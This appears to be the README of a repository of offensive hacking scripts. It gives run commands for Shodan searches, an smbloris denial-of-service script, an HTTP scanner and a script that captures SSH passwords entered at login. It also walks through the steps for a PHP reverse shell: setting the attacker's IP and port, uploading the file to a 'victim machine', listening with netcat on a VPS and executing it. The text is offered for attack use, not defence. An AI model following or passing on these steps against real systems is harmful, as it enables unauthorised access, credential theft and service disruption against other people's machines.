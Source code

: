 #Th1s 1s a rep0 ab0ut h3cking scr1pts

#shodan
shodancount.py <search query>
shodansearch.py <search query>

#smbloris
chmod +x run10.sh
sh run10.sh

#httpscan
httpscan.py <ip>

#dump_ssh_password
chmod +x ssh_password.sh
sh password.sh
open a new window to ssh login , you'll see the ssh password

#php-reverse-shell
modify the $ip and $port in php-reverse-shell.php in line 49 and 50
upload php-reverse-shell.php to the victim machine
login to your vps,listen the port
nc -lvp 1234
execute the php on the victim machine,you'll get the reverse shell
php php-reverse-shell.php

Hope you enjoy ^_^